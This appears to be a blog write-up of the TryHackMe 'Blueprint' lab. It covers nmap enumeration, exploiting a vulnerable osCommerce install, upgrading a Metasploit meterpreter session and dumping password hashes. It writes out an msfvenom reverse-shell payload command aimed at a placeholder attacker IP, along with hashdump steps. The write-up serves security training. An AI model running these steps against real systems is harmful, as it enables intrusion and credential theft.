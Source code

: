 ```yaml
---
title: "TryHackMe - Blueprint"
author: Nasrallah
description: ""
date: 2022-05-25 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, windows, metasploit, meterpreter, easy, msfvenom]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Blueprint](https://tryhackme.com/room/blueprint) from [TryHackMe](https://tryhackme.com). It's an easy windows machine running a software program with a version vulnerable to remote code execution.

# **Enumeration**
## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```Bash
Nmap scan report for 10.10.230.235                                             
Host is up (0.28s latency).                                                                                                                                   
Not shown: 987 closed tcp ports (reset) 
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods:              
|_  Potentially risky methods: TRACE
|_http-title: 404 - File or directory not found.           
|_http-server-header: Microsoft-IIS/7.5                                                                                                                       
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn                 
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| tls-alpn:                 
|_  http/1.1                                                                   
|_http-title: Bad request!
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47 
|_Not valid after:  2019-11-08T23:48:47 
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
| http-methods:                                                                                                                                               
|_  Potentially risky methods: TRACE
49152/tcp open  msrpc        Microsoft Windows RPC                                                                                                            
49153/tcp open  msrpc        Microsoft Windows RPC                                                                                                            
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-05-29T10:06:54
|_  start_date: 2022-05-29T09:57:47
|_clock-skew: mean: -20m02s, deviation: 34m37s, median: -3s
|_nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 02:b2:71:5d:06:29 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: BLUEPRINT
|   NetBIOS computer name: BLUEPRINT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-05-29T11:06:52+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled but not required
```

We have a windows machine, running a webserver on port 80 and port 8080, SMB and mysql.

## Web

Let's navigate to the webpage on port 8080.

![](/assets/img/tryhackme/blueprint/1.png)

It's a directory, let's see what it holds.

![](/assets/img/tryhackme/blueprint/2.png)

We see oscommerce with what we assume to be a version number. Let's search for **oscommerce** and see what we can find.

![](/assets/img/tryhackme/blueprint/3.png)

OsCommerce is an online store management software program, and it is vulnerable to remote code execution in this exact version this machine is running.


# **Foothold**

Let's download the exploit and run it.

![](/assets/img/tryhackme/blueprint/4.png)

Great! We got command execution and with elevated privileges.

If we opened up metasploit, we can see that it also has a module for exploiting this service and even getting a reverse shell.

![](/assets/img/tryhackme/blueprint/5.png)

Let's set the necessary parameters up and run the module.

![](/assets/img/tryhackme/blueprint/6.png)

Now let's dump the hashes.

![](/assets/img/tryhackme/blueprint/7.png)

We can't do that because the current meterpreter we're using (php/meterpreter) is not supported. Let's upgrade to **windows/meterpreter*.


# **Shell Stabilization**

First, we need to create an executable using msfvenom with this command.`msfvenom -p windows/meterpreter/reverse_tcp LHOST=Attacker_IP LPORT=1234 -f exe -o shell.exe`

![](/assets/img/tryhackme/blueprint/8.png)

Great. Now we need to setup a listener on metasploit. We use **exploit/multi/handler** for that, and set the options LPORT, LHOST and payload. After that we run the module in the background with `run -j`.
>Press `ctrl + z` to background meterpreter and then select the handler.

![](/assets/img/tryhackme/blueprint/9.png)

Great! Now let's get back to our meterpreter session, and upload the executable.
> You need to start metasploit from the same directory where we created the executable, or specify the full path of the executable:(/path/to/the/executable.exe)

![](/assets/img/tryhackme/blueprint/10.png)

We uploaded the file successfully, now let's run it with the command `execute -f shell.exe`.

![](/assets/img/tryhackme/blueprint/11.png)

Great! We got our session. Now background the old meterpreter session with `ctrl + z` and select the new one, in my case it's session 10: `sessions -i 10`.

Now we can run `hashdump` and get local users hashes.

![](/assets/img/tryhackme/blueprint/12.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
